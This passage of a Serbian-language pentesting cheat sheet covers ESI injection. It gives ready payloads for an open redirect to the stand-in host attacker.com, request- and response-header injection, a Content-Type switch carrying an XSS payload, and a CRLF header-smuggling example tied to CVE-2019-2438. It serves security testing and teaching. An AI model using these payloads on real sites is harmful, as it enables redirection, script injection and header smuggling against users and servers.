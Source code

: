 #### Otvoreno preusmeravanje

Sledeći kod će dodati `Location` zaglavlje odgovoru.

```bash
<!--esi $add_header('Location','http://attacker.com') -->
```

#### Dodavanje zaglavlja

* Dodajte zaglavlje u prisilnom zahtevu

```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```

* Dodaj zaglavlje u odgovor (korisno za zaobilaženje "Content-Type: text/json" u odgovoru sa XSS)

```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```

#### CRLF u dodavanju zaglavlja (**CVE-2019-2438)**

CRLF (Carriage Return Line Feed) injekcija je vrsta ranjivosti koja omogućava napadaču da ubaci dodatne zaglavlja u HTTP odgovor. Ova ranjivost može biti iskorišćena za izvršavanje različitih napada, uključujući i Edge Side Inclusion (ESI) injekciju.

CVE-2019-2438 je specifična ranjivost koja se odnosi na CRLF injekciju u funkciji dodavanja zaglavlja u Oracle WebLogic Serveru. Napadač može iskoristiti ovu ranjivost da ubaci zlonamerni kod u HTTP odgovor i izvrši proizvoljan kod na ciljnom serveru.

Da bi se iskoristila ova ranjivost, napadač mora da ubaci CRLF sekvencu (Carriage Return i Line Feed) u vrednost zaglavlja koje se dodaje. Ovo može biti postignuto korišćenjem specijalnih karaktera poput "%0d" i "%0a". Kada se ova sekvencija ubaci u zaglavlje, server će je tumačiti kao kraj linije i sve što sledi će biti smatrano kao novo zaglavlje.

Da bi se sprečila CRLF injekcija, preporučuje se validacija i sanitizacija svih korisničkih unosa koji se koriste za formiranje zaglavlja. Takođe je važno ažurirati softver na najnoviju verziju kako bi se ispravile poznate ranjivosti.

CVE-2019-2438 je ozbiljna ranjivost koja može dovesti do kompromitovanja ciljnog servera. Stoga je važno preduzeti odgovarajuće mere zaštite kako bi se sprečilo iskorišćavanje ove ranjivosti.

```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
